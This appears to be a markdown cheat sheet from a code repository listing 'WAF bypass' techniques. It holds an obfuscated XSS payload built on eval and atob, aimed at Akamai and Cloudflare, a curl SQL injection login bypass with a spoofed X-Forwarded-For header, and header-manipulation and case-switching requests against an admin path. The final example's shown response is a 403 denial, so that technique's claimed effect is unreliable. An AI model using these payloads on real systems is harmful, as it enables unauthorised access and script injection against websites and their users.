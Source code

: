 ----


## WAF Bypass New Techniques:

#WAF_Bypasses

A fresh technique has been spotted that successfully bypasses WAFs like Akamai and Cloudflare.

💉 Payload:

```html
<address onscrollsnapchange=window['ev'+'a'+(['l','b','c'][0])](window['a'+'to'+(['b','c','d'][0])]('YWxlcnQob3JpZ2luKQ==')); style=overflow-y:hidden;scroll-snap-type:x><div style=scroll-snap-align:center>1337</div></address>
```


SQLi Payload:

```bash
curl -X POST "https://target.com/login" \  
-H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" \  
-H "X-Forwarded-For: 127.0.0.1" \  
-H "Accept-Language: en-US,en;q=0.9" \  
-H "Content-Type: application/json" \  
--data-raw '{"username":"admin'\'' OR 1=1--", "password":"any"}'
```

1. `X-Forwarded-For` Spoofing – Tricks the WAF into thinking the request comes from a trusted IP.
2. Mixed Encoding — The `'\''` breaks SQLi detection while keeping the query valid.
3. **Legitimate Headers** — Mimics a normal browser request.


**HTTP Header Manipulation**

WAFs often block requests with **missing or abnormal headers**. But adding **random but valid ones** can bypass filters:

```bash
curl -X GET "https://target.com/admin" \  
-H "Random-Header: $(openssl rand -hex 8)" \  
-H "Referer: https://google.com"
```

## Case Switching & Obfuscation

WAFs rely on case-sensitive regex. Mix upper/lowercase to evade:

```bash
curl -X GET "https://target.com/ADMIN/../LoGiN" \  
-H "User-Agent: cURL/7.68.0"

```

Expected Response:

```http
HTTP/1.1 403 Forbidden
Content-Type: text/html
...
Access denied.

```
